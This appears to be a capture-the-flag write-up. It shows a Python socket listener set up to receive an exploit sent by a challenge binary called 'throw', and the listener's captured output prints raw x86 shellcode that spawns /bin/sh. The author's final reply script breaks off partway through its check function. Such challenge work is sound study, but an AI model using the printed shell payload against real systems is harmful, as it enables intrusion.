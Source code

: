```

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024) 
            print(data)
            print(str(data)[-19:-3])
            sendback = str(data)[-19:-3]
            check(sendback)
            sendback_enc = str.encode(sendback)
            if not data:
                break
            conn.sendall(sendback_enc)
```

Listener:
```
Connected by ('152.14.93.208', 17381)
b'\xebUAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\xc7\xff\xff[\x8ds\x081\xc9\x83\xc1\x041.\x83\xc6\x04\xe2\xf9S\xba\x10\x00\x00\x00\x8dK\x08\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80[1\xc9QS\x89\xe11\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xeb\xfe\xe8\xc4\xff\xff\xff/bin/sh\x0092cD1C64aB82F309\n'
```

throw binary:
```
youngPioneer@fd8402c5dcd0:~$ ./throw xx.xxx.xxx.xx 80
$<5>[$<2>+] Opening connection to xx.xxx.xxx.xx on port 80: Done
Sending sploit...
W00t! Sending `whoami`...
...
b'whoami\n'
```

That's a good sign! We'll assume that it wants to receive "root" back, so we'll just send that string back, followed by a \n:

Final Script (with debugging lines removed for cleanliness):
```
#!/usr/bin/env python3

import socket

sendback = ''
output = ''
HOST = ''  # Standard loopback interface address (localhost)
PORT = 80       # Port to listen on (non-privileged ports are > 1023)


def check(data):
    for char in range(len(data)):
        global sendback
        data = list(data)
        if data[char]=='0':
            data[char]='q'
        if data[char]=='1':
            data[char]='p'
        if data[char]=='2':
            data[char]='s'
        if data[char]=='3':
            data[char]='r'
        if data[char]=='4':
            data[char]='u'
```